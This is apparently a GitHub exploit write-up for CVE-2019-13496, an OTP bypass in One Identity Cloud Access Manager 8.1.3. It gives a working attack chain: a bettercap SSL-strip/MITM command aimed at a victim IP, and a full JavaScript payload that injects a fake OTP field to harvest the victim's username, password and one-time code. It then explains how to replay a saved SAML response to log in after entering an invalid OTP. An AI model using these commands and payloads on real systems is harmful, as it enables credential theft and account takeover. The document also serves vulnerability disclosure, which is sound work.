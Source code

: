 # CVE-2019-13496

Exploit Title:  OTP bypass (Filed Integrity check)<br>
Date: 07/10/2019<br>
Exploit Author: Furqan Khan<br>
Vendor Homepage: https://www.oneidentity.com/<br>
Software Link: https://www.oneidentity.com/products/cloud-access-manager/<br>
Version: 8.1.3<br>
Tested on: Kali Linux , Windows 7 ,Ubantu 16.04<br>

####  To exploit the OPT bypass vulnerability ,an attacker makes use of an earlier discovered vulnerability of MITM/SSL-Strip <a href="https://github.com/FurqanKhan1/CVE-2019-13498"> CVE-2019-13498 </a> , <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-13498"> CVE-2019-13498 </a> .An attacker , conducts a MITM / SSL strip attack using which he can inject a OTP text box into the web page which is being served to the victim.A victim shares his username ,password and OTP generated form a app called as defender(which is owned by same vendor).The attacker intercepts the username , password and OTP and then tries to access the application via a legitimate workflow. After putting username and password (which were stolen) , the attacker puts the stolen OTP at next page. when submitting the request at OTP page the signed SAML response is saved.Now even tough attacker doesn't have access over the app that generates OTP , he can put invalid otp for successive transactions and while the application invalidates the OTP , the attacker can change the failed SAML response with earlier obtained legitimate SAML response , and the application failes to conduct an integrity check and logs in the attcaker.

## (1) First Step of the attcak is to conduct MITM/SSL-Strip which is captured under : <a href="https://github.com/FurqanKhan1/CVE-2019-13498"> CVE-2019-13498 </a>  , and is also specified as under : 
### The bettercap command used is :
##### bettercap -T 192.168.1.103 --proxy -P post --proxy-module injectjs --js-file inject_js.js ####

![bettercap.jpg](https://github.com/FurqanKhan1/CVE-2019-13498/blob/master/1.PNG)

Here 192.168.1.103 is the IP address of the victim. If we do not know it , we can use bettercap , to sniff and manipulate content of the entire LAN (common network of attacker and victim)

### The content of inject_js.js is given as under ##

```html
<script>
 
function replace_payload()
{  


     var append_str='<div class="wrap-input100 validate-input m-b-20" data-validate="Password"><input class="cui-textbox" type="password"  id="passwordTextbox" name="passwordTextbox"><span class="focus-cui-textbox" data-placeholder="OTP"></span></div>';

     var text_div=$(".m-b-20");

     text_div.append(append_str);

    }

    function control(){setTimeout(replace_payload,2000);} control();
    
</script>
```
##### Now when the victim would browse the product (Cloud access manager) , due to cache piosining and SSL strip (Bettercap) ,an OTP text box will be injected in the page that would be served to victim via the injected javascript snippet #####
![injected.jpg](https://github.com/FurqanKhan1/CVE-2019-13498/blob/master/2.PNG)

##### Given that the connection is downgraded to http via ssl-strip , now all traffic shall be visible to the attacker.Thus we can intercept the traffic , and see the username , password and OTP submitted by victim. #####

![intercept.jpg](https://github.com/FurqanKhan1/CVE-2019-13498/blob/master/3.PNG)

####  Now lets assume that we have logged in once with the saved credentials and have saved all valid request and responses. 
####  In this section we will learn how we can used the earlier saved OTP response , to bypass the OTP validation which would lead us to login to the application.

##### Lets input an invalid OTP as showen under :
![injected.jpg](https://github.com/FurqanKhan1/CVE-2019-13496/blob/master/1.PNG)


##### Below shown is the response that fails the oTP validation. 
![injected.jpg](https://github.com/FurqanKhan1/CVE-2019-13496/blob/master/2_failed_otp.PNG)

##### Replace the failed response , with earlier saved legitimate response.

![injected.jpg](https://github.com/FurqanKhan1/CVE-2019-13496/blob/master/2_replace_failed_success.PNG)

##### Below shown is the SAML response that fails the oTP validation. 

![injected.jpg](https://github.com/FurqanKhan1/CVE-2019-13496/blob/master/3_failed_SAML_RESP.PNG)

##### Replace the failed response , with earlier saved legitimate SAML response.
![injected.jpg](https://github.com/FurqanKhan1/CVE-2019-13496/blob/master/3_success_resp.PNG)



##### Bingo , the application logs us in . Ideally it should have done an integrity check and should have taken it into account that the OTP has expired.
![injected.jpg](https://github.com/FurqanKhan1/CVE-2019-13496/blob/master/4_logged_in.PNG)


Bingo ! That was easy !
